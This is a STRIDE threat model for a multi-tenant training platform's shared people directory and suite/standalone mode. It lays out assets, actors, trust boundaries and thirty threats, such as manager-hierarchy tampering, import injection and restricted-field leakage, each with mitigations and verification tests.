

# Threat model TM-0004 — People directory & suite mode (EP-M2-PEO)

| | |
|---|---|
| **Backlog** | T-M1-C02 (Track C, M1 Foundation) — per-epic model for `EP-M2-PEO` |
| **Template** | Development Plan Appendix D (section structure of TM-0001) |
| **Version** | 0.1 — 3 Oct 2026 |
| **Status** | Proposed (awaiting Tech Lead review and PO merge) |
| **Owner** | Security Lead (Claude agent) |
| **Reviewers** | Tech Lead (Claude agent), Product Owner |
| **Features** | **STE-01** Suite mode and standalone mode per tenant (FR-STE-01, M, R1) · **STE-02** Shared people & organization directory, single person record across suite modules (FR-STE-02, M, R1) |
| **Inputs** | BRD v2.1 §3.4 (3.4.1, 3.4.2), §6.2 (FR-IAM-01…06, 15), §6.25 (FR-AUD-01…05), §6.27 (FR-STE-01…09), §8 (FR-INT-01), §10.3 (DR-5…7), §12, §13 (NFR-L10N-05/10), §15, App. B, App. E; Development Plan §6.4, §8.3, App. D, App. F; ADR 0001, 0002, 0003, 0004, 0005, 0006, 0010 §5; R1 data model §1.9, §1.12, §2.2, §2.3, §4; migrations `20260930120000…20261001120000` |
| **Related** | [TM-0001](TM-0001-platform.md) (platform threats T-nn, findings F-nn — cited, not repeated) · [`../risk-register.md`](../risk-register.md) · [`../asvs-l2-mapping.md`](../asvs-l2-mapping.md) · [`../secure-coding-standard.md`](../secure-coding-standard.md) · sibling M2 models: EP-M2-TEN, EP-M2-IAM (importer, invitations, roles), [TM-0005](TM-0005-audit-consent.md) EP-M2-AUD (audit, consent), [TM-0006](TM-0006-shell-notifications.md) EP-M2-SHELL (approvals inbox, notifications) |

---

## 1. Scope

### 1.1 In scope

- **Shared people directory** owned by the platform (`platform-identity` "people directory API", ADR 0001): `platform.persons`, `person_employment`, `person_sensitive`, and the `PeopleDirectory` service interface in `packages/contracts` that modules (TMS first) use instead of reading tables (ADR 0001, data model §4).
- **Organization structure** used by the directory and by data scopes: branches, departments (`ltree` path), cost centers, department heads, **manager hierarchy** (`person_employment.manager_person_id`) feeding `direct_reports` / `reports_tree` / `org_units` / `branches` scopes (ADR 0003 §3, `platform-rbac/scopes.ts`).
- **Suite vs standalone mode** (FR-STE-01): `tenants.mode`, `tenant_module_licenses`, field ownership per source (`source = manual/import/hris/core_hr`), and switching mode without data migration.
- **HR data intake:** standalone — manual maintenance and bulk CSV/XLSX import (FR-IAM-04, R1), HRIS connectors and CSV/SFTP sync (FR-INT-01, R2 — see F-PEO-06); suite — Core HR lifecycle events projected into the directory (FR-STE-03, release *Suite*; ADR 0004).
- **Personal-data handling** specific to the directory: minimization, restricted fields (FR-IAM-02), national ID/Iqama, Arabic four-part names and search (NFR-L10N-05), people search/pickers, exports, leavers, data subject requests (FR-AUD-04, R2) and cross-border transfer of HR master data.

### 1.2 Out of scope (covered elsewhere)

- Platform controls inherited unchanged (tenant isolation, `withUserTx`, `defineAction`, audit immutability, file scanning, `safeFetch`): TM-0001.
- Invitation tokens, sign-in, MFA, role catalog and the importer's UI/engine as such: EP-M2-IAM model (this model adds only directory-specific import threats: matching, hierarchy, ownership).
- Audit-log storage and consent capture: TM-0005 (EP-M2-AUD). Org-structure screens (FR-ADM-04/05): EP-M2-TEN model; this model covers their effect on scopes.
- Core HR module internals (future `modules/core-hr`): its own model when the module starts (Development Plan "Suite readiness").

### 1.3 Implementation baseline (checked 3 Oct 2026)

| Item | State in the repository | Source |
|---|---|---|
| `platform.persons` | **Exists, minimal**: `display_name_ar/en`, `email` (lower-case), `employee_number`, `status active/inactive`; unique `(tenant_id, email)`, `(tenant_id, employee_number)`; ENABLE + FORCE RLS; RESTRICTIVE `tenant_isolation`; **permissive `select`/`insert`/`update` `using (true)` for every `authenticated` member** and table-level `UPDATE` on all columns; no `DELETE` grant | `20260930120200_platform__tenancy_core.sql` |
| Name parts, `person_type`, contacts, nationality, photo, `[std]`/`[sd]` columns | **Not yet** (M2 expand migration, data model §1.14) | data model §2.3 |
| `person_employment`, `person_sensitive`, `branches`, `departments`, `cost_centers`, `tenant_module_licenses`, `bulk_jobs` | **Not yet** | data model §2.2–§2.4 |
| `tenants.mode` (`suite/standalone`, default `standalone`), `tenants.data_residency` | **Exists**; `authenticated` has `SELECT` only (no request-path write) | tenancy core migration |
| `tenant_memberships` | **Exists**: unique `(tenant_id, person_id)`; composite FK to persons; request path may update **only `status`** and only suspend/revoke (trigger) — `person_id` cannot be re-linked | tenancy core migration |
| DB claim validation (TM-0001 F-01) | **Implemented**: user claims only under `app_server` with a live Auth session and active membership; system claims only under `app_worker` | `20260930120100_private__tenant_claim_validation.sql` |
| Audit actor binding | **Implemented** (minimal): actor user/person must equal verified claims | `20260930120300_platform__audit_events.sql` |
| Data scopes | **Implemented** (`scopeCovers`, deny on unknown data) and tested; resource attributes are loaded server-side by resolvers (not built yet for persons) | `packages/platform-rbac/src/scopes.ts` |
| Person permissions (`platform.person.*`) | **Not yet registered** | `packages/platform-rbac` |

---

## 2. Assets and data classification

Classes C1–C4 as defined in TM-0001 §2.1. Column comments carry the tags of data model §1.12 (`pii:direct`, `pii:indirect`, `sensitive`, `secret`).

| ID | Asset | Fields / examples | Class | Location | Notes |
|---|---|---|---|---|---|
| PA-01 | Identity and contact data | First/father/grandfather/family names AR/EN, display names, e-mail, mobile (E.164), photo, preferred locale | C3 | `platform.persons`, Storage (photo) | TM-0001 A-08. Contacts drive invitations and notifications (PEO-03) |
| PA-02 | Employment placement | Employee number, branch, department, cost center, job title, grade, hire/end dates, person type | C3 (integrity-critical) | `platform.person_employment` | Drives eligibility, audiences, compliance and scopes |
| PA-03 | **Manager hierarchy and org tree** | `manager_person_id`, department `parent_id`/`path`, `head_person_id` | C3 (**authorization-critical**) | `person_employment`, `departments` | Tampering = privilege change (PEO-05…07) |
| PA-04 | Restricted demographics | Gender, date of birth, employment category (FR-IAM-02); nationality / national flag (TM-0001 A-02 classifies as C4 — see F-PEO-02) | C4 | `person_sensitive` (gender, DOB); data model currently puts `employment_category` in `person_employment` and nationality in `persons` | Restricted to HR/Compliance by default |
| PA-05 | National ID / Iqama / passport number | Saudi national ID, Iqama, Emirates ID, Egyptian national ID | C4 | `person_sensitive.national_id_ciphertext` + `_key_id` + `_hash` (blind index) | TM-0001 A-01; NFR-SEC-03; no R1 requirement needs it (F-PEO-05) |
| PA-06 | Custom-field values on persons | Tenant-defined (FR-ADM-11) — may hold anything, incl. sensitive data | C3/C4 by definition | `persons.custom_fields` | Classification must come from the field definition |
| PA-07 | Source and mapping data | `source`, `source_ref`, HRIS mapping IDs (DR-7), sync cursors | C2 | `person_employment`, mapping tables (R2) | Determines field ownership |
| PA-08 | Import/sync artefacts | Uploaded CSV/XLSX, dry-run previews, error reports, sync logs, SFTP/HRIS credentials | C4 (aggregate) / C4 secret | Storage `imports`/`generated` (ADR 0006), `bulk_jobs`, `tenant_secrets` | TM-0001 A-13 |
| PA-09 | Mode and licences | `tenants.mode`, `tenant_module_licenses` | C3 (security-relevant) | `platform` | Decide data ownership and which permissions exist |
| PA-10 | Directory exports and search results | People lists, org charts, audience member lists | C3/C4 (aggregate) | Responses, `generated` bucket | Mass-disclosure vector |

---

## 3. Actors

TM-0001 §3 actors apply. Directory-specific roles and motives:

| Actor | Legitimate directory capability (BRD App. B "Users & roles") | Threat motives here |
|---|---|---|
| Tenant Admin (AC-TA) | Full directory, org tree, imports, mode request | Over-reach, malicious tenant (AC-MT) |
| HR Manager / Compliance (AC-CO) | Edit within scope; restricted fields; HRIS settings (App. B "Integrations: E (HRIS)") | Manager-hierarchy tampering, bulk export, insider curiosity about restricted fields |
| Training Manager / Coordinator (AC-CO) | View directory; pick people for nominations | Scraping contacts, inference via filters |
| Dept Head / Line Manager (AC-MG) | View team / department | Widening own team, viewing non-reports |
| Learner (AC-LR) | Own profile (O) | Changing own placement, browsing colleagues |
| External instructor / provider staff (AC-EI, AC-PS) | Rosters of assigned sessions only (Q5; FR-IAM-15 "no access to internal directory data") | Harvesting employee directory |
| HR source systems (AC-IN): customer HRIS, SFTP drop (R2); Jadarat Core HR (Suite) | Authoritative writer of owned fields | Compromise or impersonation propagating bad data at scale |
| Other suite modules (in-process) | Read people via `PeopleDirectory`; Core HR publishes `com.entlaqa.core_hr.*` | Boundary bypass, spoofed events |
| Data subject / requester | Access, correction, erasure (FR-AUD-04, R2) | Impersonating an employee to obtain data |
| ENTLAQA platform staff (AC-PF) | Licences and mode (console); DSR assistance | Cross-tenant people lookups |

---

## 4. Entry points and trust boundaries

### 4.1 Entry points (extend TM-0001 §4.2)

| ID | Entry point | Built on | Release |
|---|---|---|---|
| EP-P1 | Directory server actions: create/update/deactivate/reactivate person, set placement and manager, org-tree edits | EP-02 | R1 |
| EP-P2 | People search, pickers (nominate, approver, instructor), profile pages, org chart | EP-01, EP-02 | R1 |
| EP-P3 | Own-profile self-service (locale, photo, notification preferences) | EP-02 | R1 |
| EP-P4 | Bulk import of persons and org units (CSV/XLSX upload → scan → dry run → job) | EP-15, worker | R1 |
| EP-P5 | Exports of people lists / report data sets containing people | EP-03, worker | R1 (RPT-02), R2 (AUD-02) |
| EP-P6 | HR sync in standalone mode: SFTP pull or HRIS API (outbound), HRIS webhooks (inbound) | EP-11, EP-14 | R2 (F-PEO-06) |
| EP-P7 | Core HR events consumed by the directory projector (in-process outbox) | ADR 0004 | Suite |
| EP-P8 | `PeopleDirectory` service interface used by modules (TMS, later others) | `packages/contracts` | R1 |
| EP-P9 | Mode and licence management | EP-13 (platform console) | R1 |
| EP-P10 | Data subject request handling (R1 manual runbook; R2 workflow) | EP-13, EP-02 | R1 (manual) / R2 |

### 4.2 Trust boundaries (extend TM-0001 §4.1)

| ID | Boundary | Crossing controls |
|---|---|---|
| TB-P1 | Low-trust member ↔ internal directory (learners, external instructors, provider staff vs employee data) | `defineAction` + `scopeFilter`; person-type rules; minimal picker DTOs; rate limits |
| TB-P2 | Ordinary fields ↔ restricted fields (C4 in `person_sensitive`) | Separate table; `platform.person.read_sensitive`; DTO projection (T-35); envelope encryption; audit of reads |
| TB-P3 | HR source (HRIS/SFTP/Core HR) ↔ directory | Per-connection credentials (worker only); tenant from the connection; event-type ownership; diff + thresholds; field-ownership matrix |
| TB-P4 | Module ↔ platform directory (ADR 0001) | `PeopleDirectory` interface only; dependency-cruiser; thin events (IDs) |
| TB-P5 | Directory data ↔ authorization (hierarchy/org tree feed scopes) | Server-loaded resource attributes; hierarchy invariants; audited changes |

### 4.3 Data-flow diagram

Zones Z0–Z5 as in TM-0001 §5; Z6 is the in-process module zone (same runtime, separated by code boundaries only — see RR-PEO-03).

---

## 5. Inherited platform threats

These TM-0001 threats apply to this epic **unchanged**; stories cite them in their *Security notes*: T-06 (tenant admin vs shared login), T-12 (enumeration), T-14/T-32 (cross-tenant write/read), T-17 (mass assignment), T-18 (injection in search/sort), T-24 (event processing under wrong tenant), T-26 (malicious import files), T-28 (cross-tenant cache), T-29 (repudiation), T-35 (restricted-field leakage), T-37 (PII in logs), T-39 (SSRF via HRIS URLs, R2), T-42 (data residency), T-43 (exports), T-45 (PII in notifications), T-48 (noisy neighbour), T-54/T-55 (function-level authz, scope bypass/IDOR), T-56 (role escalation), T-57 (stale privileges), and finding F-08 (audit diffs vs erasure).

---

## 6. STRIDE analysis (epic-specific)

**Rating.** Likelihood (L) and Impact (I) on the **1–5 scales of the risk register §1** (inherent, before the listed mitigations). Any cross-tenant exposure is S1 regardless of rating.

**Status values.** As TM-0001 §6, plus *Partly implemented* (part of the control exists in `supabase/migrations` or `packages/` today, §1.3; the rest is pending).

### 6.1 Spoofing

| ID | Threat | STRIDE | Entry point | L | I | Mitigation | Verification (test/CI/review) | Status |
|---|---|---|---|---|---|---|---|---|
| PEO-01 | **HR sync impersonation (standalone):** attacker with leaked SFTP/HRIS credentials, a spoofed SFTP host or a forged inbound HRIS webhook feeds a crafted file/feed that creates persons, rewires managers or deactivates staff | S/T | EP-P6 | 2 | 4 | Per-connection credentials in `tenant_secrets`, decrypted only in the worker (SCS-14); SFTP pull with pinned host-key fingerprint, HRIS over TLS with certificate validation (ASVS V12.3) through `safeFetch` (T-39); inbound webhooks HMAC + timestamp + replay cache, **tenant from the connection** (T-08); optional signed files (decision R2); change-volume circuit breaker (PEO-23) and dry-run diff for the first run of a connection; audit with `actor_type = integration` + connection id | Contract tests: bad signature, wrong host key, replay, payload tenant ignored; circuit-breaker integration test | Planned (R2) |
| PEO-02 | **Spoofed Core HR events (suite):** code outside `modules/core-hr` (or a compromised dependency) publishes `com.entlaqa.core_hr.*` events, or writes `person_employment` with `source = core_hr`, and the projector applies them | S/T | EP-P7 | 2 | 4 | Event registry binds type → owner module (ADR 0004); publisher obtained from a module-scoped factory that stamps `source` (callers cannot set it); CI test: only `modules/core-hr` emits `core_hr.*` types, only the projector writes `source = core_hr` (dependency-cruiser + registry test); projector rejects source/type mismatch and events for tenants not in suite mode | CI registry/ownership test; projector unit tests with forged source; review of projector PRs | Planned (Suite) |
| PEO-03 | **Contact-data redirection (pre-hijack):** HR edit, import or sync changes the e-mail/mobile of a person with a pending invitation (or matches the wrong person, PEO-10), so the invitation, OTP or notifications reach an attacker who then activates the membership and inherits the person's records and roles | S/E | EP-P1, EP-P4, EP-P6 | 3 | 4 | Invitation bound to the e-mail it was sent to; any contact change on a person with a pending invitation **revokes** it (re-invite required); for active memberships the directory e-mail is not the login e-mail (T-06, ADR 0003 §1) and changes notify the old address; dry-run diff flags contact changes; no high-risk role is active before the member activates with MFA (PEO-28); audit before/after | Integration tests: change e-mail → invitation revoked; old address notified; E2E J3 | Designed (M2) |
| PEO-04 | **Name spoofing and confusables:** bidi overrides (U+202E), homoglyphs, tatweel/diacritics or a cloned display name make a person look like someone else in pickers, approvals or org charts (wrong person nominated/approved; social engineering) | S | EP-P1, EP-P2, EP-P4 | 3 | 2 | `safeText` (NFC, strip bidi overrides/isolates, SCS-4) on every name field incl. import; duplicate detection and search on `private.normalize_ar()` (ADR 0007 §9); pickers/approval cards show disambiguators (employee number, department, job title) and an **external** badge for non-employee person types | Unit tests with bidi/homoglyph/tatweel corpus (AR/EN); UI review | Planned (M2) |

### 6.2 Tampering

| ID | Threat | STRIDE | Entry point | L | I | Mitigation | Verification (test/CI/review) | Status |
|---|---|---|---|---|---|---|---|---|
| PEO-05 | **Manager-hierarchy tampering widens scope:** a user who can edit persons (or an import/sync row) sets `manager_person_id` so the actor or an accomplice gains `direct_reports`/`reports_tree` scope over a target (e.g., executives), or removes themself from oversight | T/E | EP-P1, EP-P4, EP-P6 | 3 | 4 | Separate permission `platform.person.manage_placement` (risk high → AAL2), distinct from contact edits; the actor may only set a manager/department for persons **inside their own scope** and may never place themself as manager of a person outside it (ADR 0003 §5 "grant only within scope", applied to hierarchy); suite mode: field owned by Core HR only (PEO-11); audit before/after + notification to the person, old and new manager; Tenant Admin "scope changes" report (who gained reports in the last N days); dry-run diff counts manager changes | Authz negative tests (out-of-scope target → 404; self-as-manager → 403); audit assertions; import diff test | Designed (M2) |
| PEO-06 | **Hierarchy integrity:** self-manager, cycles (A→B→A), manager in another tenant, manager that is inactive or external → self-approval through the R1 default chain (line manager → training manager) or unbounded recursion in `reports_tree` | T/D/E | EP-P1, EP-P4 | 3 | 3 | `check (manager_person_id <> person_id)`; composite FK `(tenant_id, manager_person_id)`; cycle check in the write path with depth cap (or maintained `manager_path`, F-PEO-09); manager must be an active employee person type; approval engine never assigns a step to the requester or subject (fallback to the next approver) — minimal SoD in R1 although FR-IAM-09 is R2 (F-PEO-08) | pgTAP: self/cycle/cross-tenant rejected; unit tests on chain resolution; property test on deep trees | Designed (M2) |
| PEO-07 | **Org-tree tampering:** moving a department subtree, changing a department's branch or parent silently widens `org_units` (with descendants) or `branches` scopes of existing role assignments | T/E | EP-P1, EP-P4 | 2 | 4 | `platform.org.manage` (AAL2); move preview lists affected role assignments and member counts; `ltree` path maintained by trigger with no-cycle check; audit + Tenant Admin notification | Integration test: move → preview shows affected assignments; pgTAP cycle tests | Designed (M2) |
| PEO-08 | **Self-service escalation / mass assignment:** a learner's own-profile update carries `managerPersonId`, `departmentId`, `personType`, `status`, `source`, `email` or `employmentCategory` | T/E | EP-P3 | 3 | 3 | Own-profile action with `z.strictObject` allowing only locale, photo, notification preferences (SCS-4, T-17); server-owned fields (`source`, `source_ref`, `status`, `person_type`, `tenant_id`) never in input schemas; DB defense in depth: column-level `UPDATE` grants on `persons` instead of table-wide (F-PEO-01) | Unit tests: unknown keys → 400; pgTAP: column grants | Partly implemented (strict schemas in `defineAction`; table-wide grant today) |
| PEO-09 | **Malicious import content:** formula payloads (`=`, `+`, `-`, `@`, tab, CR) in names stored and later emitted in exports/error reports; XLSX XXE/zip bombs; mis-encoded Arabic (Windows-1256 vs UTF-8) corrupting names; control characters | T/D | EP-P4 | 4 | 3 | T-26 controls; only `clean` files processed (ADR 0006); UTF-8 template with BOM, invalid UTF-8 rejected with a clear AR/EN error; values stored as text and **neutralized on every CSV/XLSX output** incl. error reports (SCS-6.6); size/row limits (10,000 rows, 20 MB bucket limit) | Unit tests with malicious fixtures (formula, XXE, zip bomb, CP1256); export escaping test | Planned (M2) |
| PEO-10 | **Wrong-person overwrite in upsert/update:** a row whose employee number matches person A and e-mail matches person B updates the wrong record; a stale file in update-only mode reverts managers or reactivates leavers | T | EP-P4 | 3 | 4 | Match key chosen explicitly per job (employee number or e-mail); a row matching different persons on different keys is an error, never an update; dry-run diff by category (contact, placement/manager, status, restricted) with confirm step; reactivation via import only with an explicit option; batch rollback (BRD §10.4) | Integration tests for key conflicts, stale-file reactivation, rollback; E2E J3 | Planned (M2) |
| PEO-11 | **Ownership conflict suite vs standalone:** in suite mode TMS screens, import or an HRIS connector still write Core-HR-owned fields (or both writers stay active after a mode switch), causing flip-flopping managers/status and authorization drift | T | EP-P1, EP-P4, EP-P6, EP-P9 | 3 | 3 | Field-ownership matrix per mode enforced in the directory service (data model §4: TMS "never writes employment data in suite mode"); writes by a non-owner rejected (409) and logged; `source` per row; mode switch disables import/HRIS jobs in the same operation and produces a reconciliation report | Integration tests per mode × writer; mode-switch test | Partly implemented (`tenants.mode` exists, request path cannot write it) |
| PEO-12 | **Licence/mode tampering:** a Tenant Admin sets `tenants.mode` or inserts a `core_hr` licence to change data ownership or unlock unlicensed module permissions | E/T | EP-P9 | 2 | 3 | `tenants` and `tenant_module_licenses` written only through the platform console/admin path (audited, ADR 0002 §7); `authenticated` has `SELECT` only; grants of unlicensed modules dropped when permissions are computed (ADR 0001); `suite` mode refused while no Core HR module exists for the deployment | pgTAP: no insert/update for `authenticated`; unit test grant filtering | Partly implemented (`tenants` select-only; licences table pending) |

### 6.3 Repudiation

| ID | Threat | STRIDE | Entry point | L | I | Mitigation | Verification (test/CI/review) | Status |
|---|---|---|---|---|---|---|---|---|
| PEO-13 | **Unattributable directory changes:** bulk import, sync or projector changes recorded without initiator, connection or per-field diff; impossible to show who was someone's manager (and therefore had scope) on a given date | R | EP-P1, EP-P4, EP-P6, EP-P7 | 3 | 3 | Audit per change with `actor_type user/system/integration`, initiating person, `bulk_job_id`/connection id, correlation id (T-29, T-31); effective-dated, append-only placement history (F-PEO-04) so scopes can be reconstructed for investigations and regulators | Audit assertions in importer/projector tests; history query test | Designed (M2); history **Open — F-PEO-04** |

### 6.4 Information disclosure

| ID | Threat | STRIDE | Entry point | L | I | Mitigation | Verification (test/CI/review) | Status |
|---|---|---|---|---|---|---|---|---|
| PEO-14 | **Directory over-exposure to low-trust members:** learners, external instructors and provider staff page through employees via search, pickers, profiles or org chart; at the DB layer `persons_read using (true)` lets any member's transaction read every person of the tenant | I | EP-P2, EP-P8 | 4 | 3 | Search/picker/profile are `defineAction`s with `scopeFilter`; external person types get **no directory access** in R1 (FR-IAM-15 rule applied early; rosters of assigned sessions only); picker DTO = display name, job title, department, avatar; minimum query length, page cap, rate limit (SCS-16); DB defense in depth for non-employee members (F-PEO-01) | Authz negative tests per role (learner, external instructor); DAST paging probe; rate-limit test | Designed (M2); DB layer **Open — F-PEO-01** |
| PEO-15 | **Restricted-field leakage and inference:** gender, DOB, employment category, nationality, national ID exposed via DTOs, exports, audiences, audit diffs, import error reports — or inferred by users without `read_sensitive` through filters/sorts (`?sort=date_of_birth`, `gender=f`) | I | EP-P2, EP-P4, EP-P5 | 4 | 4 | T-35 projection registry; **filter, sort and audience-rule allow-lists derive from the same projection**; error reports never echo restricted values; restricted columns physically in `person_sensitive` (F-PEO-02 for employment category/nationality); custom-field definitions carry a classification and "restricted" flag (FR-ADM-11) | Unit tests per DTO and per filter/sort; export tests; error-report test | Designed (M2) |
| PEO-16 | **National ID / Iqama exposure:** plaintext in import files, error reports, logs or exports; offline brute force of a 10-digit blind index if the index key leaks; one global index key lets the same person be linked across tenants from a DB dump | I | EP-P1, EP-P4, EP-P5 | 2 | 5 | Do not collect in R1 unless a purpose is approved (F-PEO-05); if collected: envelope encryption with row-bound AAD (SCS-13, ADR 0010 §5), blind index with a **per-tenant derived key** (F-PEO-03), masked display (last 4) with audited reveal under `read_sensitive` + AAL2, excluded from exports by default, import source file purged after the job (PEO-21), never logged (SCS-15) | Unit tests: encryption/AAD mismatch fails, masked DTO; pgTAP: unique per tenant; log-redaction test | **Open — decision F-PEO-05** |
| PEO-17 | **Bulk exfiltration via exports and saved views** of the whole directory with contacts | I | EP-P5 | 3 | 4 | `platform.person.export` separate from read (AAL2); same projection as screens; async job, encrypted object, 24 h expiry, audit with filter and row count (T-43); rate limit 5/hour (SCS-16); volume alert to Tenant Admin | Export authz/audit tests; rate-limit test | Planned (M2/M6) |
| PEO-18 | **Existence oracles:** "e-mail/employee number/national ID already exists" responses reveal persons to users without read scope over them | I | EP-P1, EP-P4 | 3 | 2 | Uniqueness conflicts are detailed only to users whose scope covers the conflicting record; otherwise a generic error; national-ID conflicts always generic + audited | Integration tests on error bodies by role | Designed (M2) |
| PEO-19 | **Cross-tenant linkage of one individual:** a global person identifier, console search by e-mail/national ID across tenants, or a shared blind-index key links a contractor's records in several tenants | I | EP-P9, EP-P10 | 2 | 5 | Persons strictly tenant-scoped ("single person record" = per tenant); no global person entity; `auth.users` reachable only via memberships; console never searches people across tenants by PII; per-tenant blind index (F-PEO-03) | pgTAP isolation tests (T-32); console review | Partly implemented (tenant-scoped `persons`, RLS, composite FKs) |
| PEO-20 | **Directory data in events, notifications and logs:** projections publishing names/e-mails, manager-change notices revealing restructures, import job logs containing rows | I | EP-P4, EP-P7 | 3 | 3 | Thin events with IDs only and PII classification in the event registry (ADR 0004); import/sync logs carry row numbers and error codes only (SCS-15); notifications minimal (T-45) | Event-registry CI check; log-redaction tests | Designed (M2) |
| PEO-21 | **Over-retention of import/sync artefacts:** original files (30 d in `imports`, ADR 0006), full-row error reports, dry-run previews, raw HRIS payloads | I | EP-P4, EP-P6 | 3 | 3 | Source file deleted when the job completes (proposed ≤ 7 days for retry/rollback, tenant-configurable); error reports contain row, column, error code and only non-restricted values, 24 h expiry; raw HRIS payloads not stored after processing | Retention job test; error-report content test | Planned (M2) |
| PEO-22 | **Cross-border transfer of HR master data:** the directory is the largest personal-data set; standalone feeds and imports move KSA/UAE/Egypt employee data to the regional SaaS in Frankfurt | I | EP-P4, EP-P6 | 4 | 4 | T-42 controls; `tenants.data_residency` recorded and shown (exists); sovereign tenants have no outbound HRIS calls outside the jurisdiction; SDAIA SCCs + transfer risk assessment (R-05), Egypt and UAE items (R-07, R-08) | Privacy review per release; configuration test | **Open — legal** (R-05/07/08) |

### 6.5 Denial of service

| ID | Threat | STRIDE | Entry point | L | I | Mitigation | Verification (test/CI/review) | Status |
|---|---|---|---|---|---|---|---|---|
| PEO-23 | **Mass deactivation:** an erroneous or malicious file/feed (e.g., empty file treated as full sync) deactivates most persons, revoking sessions and triggering reassignment cascades | D | EP-P4, EP-P6 | 3 | 4 | R1 import never deactivates by absence; deactivation only by explicit status column; R2 sync: absence-based deactivation behind a threshold circuit breaker (tenant-configurable) requiring admin approval; Tenant Admins/break-glass accounts never auto-deactivated; reactivation restores access (FR-IAM-05) | Integration tests: empty file, threshold exceeded → held; admin exclusion | Designed (M2) / Planned (R2) |
| PEO-24 | **Resource exhaustion:** 10,000-row imports with deep hierarchies, recursive `reports_tree` evaluation per request in 50k-person tenants, leading-wildcard trigram search | D | EP-P2, EP-P4 | 3 | 2 | T-48; import batches of 500 with checkpoints, one active import per tenant (ADR 0005); manager chain from a maintained path (F-PEO-09), depth cap; search minimum length + `statement_timeout` | k6 search test; import timing test (≤ 5 min per ADR 0005) | Planned (M2–M5) |

### 6.6 Elevation of privilege

| ID | Threat | STRIDE | Entry point | L | I | Mitigation | Verification (test/CI/review) | Status |
|---|---|---|---|---|---|---|---|---|
| PEO-25 | **Scope evaluation on stale or client-supplied hierarchy:** resolvers take `subjectManagerPersonId` from the request or a cross-request cache; a deactivated manager keeps `direct_reports` scope | E | EP-P2, EP-P8 | 3 | 4 | `ResourceAttributes` loaded server-side under RLS on every request (`scopes.ts` contract); no cross-request caching of hierarchy (SCS-17); manager scopes require the holder's membership to be active (T-57) | Unit tests on `scopeCovers` (exist); integration: manager change → next request reflects it | Partly implemented (`scopeCovers` deny-by-default + tests) |
| PEO-26 | **Module-boundary bypass:** TMS (or a later module) queries `platform.persons`/`person_sensitive` directly, skipping projection, ownership rules and sensitive-read audit | E/I | EP-P8 | 3 | 3 | ADR 0001 dependency-cruiser rules; Drizzle definitions of directory tables exported only inside `platform-identity`; `PeopleDirectory` returns DTOs; `person_sensitive` readable only through a reviewed function or permission-aware policy (F-PEO-01) | dependency-cruiser gate; CI test that `modules/*` import no directory table symbols | Designed (M2) |
| PEO-27 | **Identity swap via merge or re-link:** re-pointing a membership to another person record, or merging an attacker's duplicate into a target, inherits records, certificates and roles | E | EP-P1 | 2 | 4 | `tenant_memberships.person_id` not updatable by the request path (column grant: `status` only — exists); no person merge in R1; R2 merge = high-risk, AAL2, second approver, audit | pgTAP: update of `person_id` denied (exists in catalog/isolation tests — extend) | Partly implemented |
| PEO-28 | **Pre-provisioned privileges:** an import "role" column or HR edit attaches Tenant Admin/HR roles to a person before activation, so whoever activates (PEO-03) gets them | E | EP-P1, EP-P4 | 3 | 4 | Role assignments hang off memberships (data model §1.9) and are created only by role-management actions under "grant only what you hold" (T-56); import cannot assign high-risk roles; AAL2 enrolment required before high-risk permissions take effect | Authz tests: import with role column → rejected/ignored; AAL2 gate | Designed (M2) |
| PEO-29 | **Leavers keep access:** in standalone mode terminations reach the TMS late (manual imports), so a person with a past `end_on` or inactive HR status keeps an active membership and scopes | E/I | EP-P1, EP-P4 | 4 | 3 | Deactivation suspends memberships and revokes sessions in the same operation (FR-IAM-05); daily job deactivates persons whose `end_on` has passed (tenant setting); Tenant Admin report "active logins with end date passed"; suite mode: Core HR termination event (FR-STE-03) | Integration tests: deactivate → next request denied; job test | Planned (M2) |

### 6.7 Data-subject requests (cross-category)

| ID | Threat | STRIDE | Entry point | L | I | Mitigation | Verification (test/CI/review) | Status |
|---|---|---|---|---|---|---|---|---|
| PEO-30 | **Data-subject-request abuse or incomplete erasure:** a requester impersonates an employee to obtain their data via support; erasure applied in one module but not in others, backups or audit diffs; erasure destroys retained training evidence (DR-5) | I/T | EP-P10 | 2 | 4 | Requests routed to the tenant (controller) — ENTLAQA support never verifies identity on the tenant's behalf; R1 manual runbook with platform-admin tooling, audited; erasure = anonymize `persons`/`person_sensitive` + crypto-shred C4 (F-08) + `person.anonymized` event consumed by every module, while pseudonymized training records stay under retention | Runbook review; R2 workflow tests (FR-AUD-04) | **Open — R1 runbook**; Planned (R2) |

**Count:** 30 threats (4 spoofing, 8 tampering, 1 repudiation, 9 information disclosure, 2 denial of service, 5 elevation of privilege, 1 data-subject-request threat spanning I/T; several span two categories as marked).

---

## 7. Abuse cases

Each abuse case becomes at least one negative test in the epic (Plan §8.2).

| ID | Abuse case | Actor | Threats | Expected system behaviour / test |
|---|---|---|---|---|
| AB-PEO-01 | An HR coordinator with department scope edits the CFO (outside scope) to report to them | AC-CO | PEO-05 | 404 (out of scope); denied attempt audited |
